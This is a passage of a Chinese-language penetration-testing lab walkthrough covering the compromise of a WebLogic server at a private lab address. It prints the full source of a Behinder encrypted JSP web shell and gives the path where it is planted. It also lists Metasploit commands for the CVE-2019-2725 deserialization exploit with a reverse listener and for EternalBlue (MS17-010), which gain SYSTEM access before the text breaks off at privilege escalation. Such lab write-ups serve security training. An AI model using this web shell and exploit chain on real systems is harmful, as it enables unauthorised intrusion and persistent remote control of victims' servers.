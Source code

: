再来扫描PC机的端口
![](https://img-blog.csdnimg.cn/2021052711561399.png)
### Getshell
#### weblogic
由于存在weblogic，那么使用工具：[https://github.com/rabbitmask/WeblogicScan](https://github.com/rabbitmask/WeblogicScan)
```bash
python3 WeblogicScan.py -u 192.168.111.80 -p 7001
```
![](https://img-blog.csdnimg.cn/2021052615070374.png)
发现存在CVE-2018-2893和CVE-2019-2725，其中CVE-2018-2893网上的利用方式都失效了，会超时
利用工具：[https://github.com/zhzyker/exphub.git](https://github.com/zhzyker/exphub.git)

再测试第二个CVE，访问：`_async/AsyncResponseService`，发现存在漏洞
![](https://img-blog.csdnimg.cn/20210526155346457.png)
直接上Java反序列化终极测试工具
![](https://img-blog.csdnimg.cn/20210526174143217.png)
然后上传冰蝎马，[weblogic上传木马路径选择 ](https://www.cnblogs.com/sstfy/p/10350915.html)
```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```
上传到：`C:\Oracle\Middleware\wlserver_10.3\server\lib\consoleapp\webapp\framework\skins\wlsconsole\images\shell.jsp`
![](https://img-blog.csdnimg.cn/20210526183720985.png)
然后文件路径在：`http://192.168.111.80:7001/console/framework/skins/wlsconsole/images/shell.jsp`，冰蝎连接即可
![](https://img-blog.csdnimg.cn/20210526184005213.png)
这里发现其实还存在ssrf漏洞，存在于`http://192.168.111.80:7001/uddiexplorer/SearchPublicRegistries.jsp`
[Weblogic-SSRF漏洞复现](https://www.cnblogs.com/bmjoker/p/9759761.html)
使用msf来进行测试CVE-2019-2725漏洞
 ```bash
 use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
 show options
 set rhosts 192.168.111.80
set lhost 192.168.111.129
set target 1   #将target改为windows
run
 ```
 ![](https://img-blog.csdnimg.cn/2021052619071095.png)
 #### ms17-010
由于开放了445端口，尝试使用ms17-010扫描模块
 ```bash
 use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.111.80
run
 ```
 ![](https://img-blog.csdnimg.cn/20210526193013283.png)
 发现可能存在漏洞，使用`use exploit/windows/smb/ms17_010_eternalblue` 进行攻击
![](https://img-blog.csdnimg.cn/2021052619320694.png)
发现可以直接getsystem提权到最高权限
### 内网渗透
首先拿出我们万能的cs，使用冰蝎上线木马
#### 提权
发现权限为Administrator，进行提权
